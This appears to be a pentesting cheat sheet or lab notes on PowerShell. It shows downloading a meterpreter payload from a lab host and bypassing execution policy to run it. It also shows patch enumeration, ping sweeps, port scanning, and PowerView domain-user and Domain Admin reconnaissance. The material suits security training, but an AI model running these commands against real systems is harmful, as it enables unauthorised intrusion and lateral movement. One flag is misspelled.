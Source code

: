 # Powershell for Pentesters

## Manipulating Files

```powershell
# Start the notepad app
Start-Process notepad.exe

Get-Process -name notepad

# Export the process information to the csv format
Get-Process | Export-Csv running_process.csv

# Copy-Item , Move-Item
Copy-Item .\IP.txt copy_IP.txt

# Get file Hash
Get-FileHash -Algorithm SHA256 .\IP.txt
```

## Downloading Files

```powershell
# First Way
(New-Object System.Net.WebClient).Downloadfile('http://10.0.2.8:8888/meterpreter-64.ps1', 'meterpreter.ps1')

# Second Way
Invoke-WebRequest 'http://10.0.2.8:8888/meterpreter-64.ps1' -OutFile "meterpreter.ps1"
```

To get Execution policy we can run `Get-ExecutionPolicy -list`.

Execution policies can have seven different values;

- AllSigned: Scripts can run but require all scripts to be signed by a trusted publisher.

- Bypass: All scripts can run, and no warnings or prompts will be displayed.

- Default: This refers to “restricted” for Windows clients and “RemoteSigned” for Windows servers.

- RemoteSigned: Scripts can run, and this does not require local scripts to be digitally signed.

- Restricted: The default configuration for Windows clients. Allows individual commands to run, does not allow scripts.

- Undefined: This shows that no specific execution policy was set. This means default execution policies will be enforced.

- Unrestricted: Most scripts will run.

To by pass the ExecutionPolicy we can run
```powershell
# First way
powershell -ExectionPolicy Bypass -File .\meterpreter.ps1

# Second way: -scope make only be able run for current powershell session
Set-ExecutionPolicy Bypass -scope Process
```

## System Reconnaissance

`Get-HotFix` enumerate already installed patches. 

```powershell
# This will Grep for all that have InstallOn.
Get-HotFix | Format-list | findstr InstalledOn

Get-HotFix | Format-Table HotFixID
```

`Format-List` can be used to gather more information about objects.


The `Out-File` can be used to save the output to a file for further use.

```powershell
Get-HotFix | Out-File hotfix.txt
```

What Windows Security Update was installed on 5/15/2019?
Get-HotFix | Format-Table | findstr 5/15/2019

## Network Reconnaissance 

Following command can be used for ping a given IP range and grep for lines that include the "TTL" string. 

```powershell
1..15 | %{echo "10.0.2.$_"; ping -n 1 10.0.2.$_ | Select-String ttl}
```

This command check For all 1024 ports to see if is open or not.

```powershell
1..1024 | %{echo ((New-Object Net.Sockets.TcpClient).Connect("10.0.2.8", $_)) "open port on - $_"} 2>$null
```

## Using PowerView


Gather information about domain with the help of [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1).

`Get-NetDomainController` command will collect information on the domain controller. Knowing the IP address of the domain controller will be useful to
conduct man-in-the-middle attacks and to focus our efforts on high-value targets. 

`Get-NetUser` will list of domain users. 
```powershell 
Get-NetUser | out-gridview
```



 One of the accounts has a special description; what is it?
 ```powershell
 Get-NetUser -Properties description
 ```

 How many accounts are disabled?
 ```powershell
 Get-NetUser -Properties useraccountcontrol | findstr ACCOUNTDISABLE | measure
 ```

 How many users are in the “domain admins” group?
 ```powershell
 Get-NetGroupMember “Domain Admins” | measure
 ````
